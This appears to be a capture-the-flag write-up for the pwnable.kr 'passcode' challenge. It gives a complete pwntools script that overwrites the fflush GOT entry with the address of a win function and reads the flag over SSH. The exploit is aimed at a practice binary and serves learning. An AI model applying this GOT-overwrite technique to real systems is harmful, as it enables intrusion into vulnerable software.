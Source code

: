 note: we know the addresses of the GOT and login code because ASLR is disabled on the server, so the addresses are always the same.


## Exploitation script

```python
#!/usr/bin/env python
from pwn import *
```
* Use [pwntools](https://github.com/Gallopsled/pwntools) for automatic exploitation
```python
passcode = ELF('./passcode')

# addres where the pointer to fflush is stored
fflush_got = passcode.got['fflush']

# address of the code we want to jump to
win_code = 0x0804928F
```
* Load the ```passcode``` binary and get the address of the ```fflush``` GOT entry and the address of the win code
```python
# create a payload to overwrite the fflush GOT entry
payload = fit({96: p32(fflush_got)}) + b'\n' + str(win_code).encode()
```
* Create a payload that overwrites the ```fflush``` GOT entry with the address of the win code, the ```fit()``` function is used to fill the buffer with the address at the right position (96 bytes from the start of the stack frame)
```python
server = ssh('passcode', 'pwnable.kr', 2222, 'guest')
io = server.process(['./passcode'])

io.sendline(payload)

io.recvuntil("Login OK!\n")
result = io.recvall()

io.close()
server.close()

print(result)
```
* Connect to the server via SSH, start the ```passcode``` process and send the payload
* Wait for the "Login OK!" message and then read the output of the program, which should contain the content of the ```flag``` file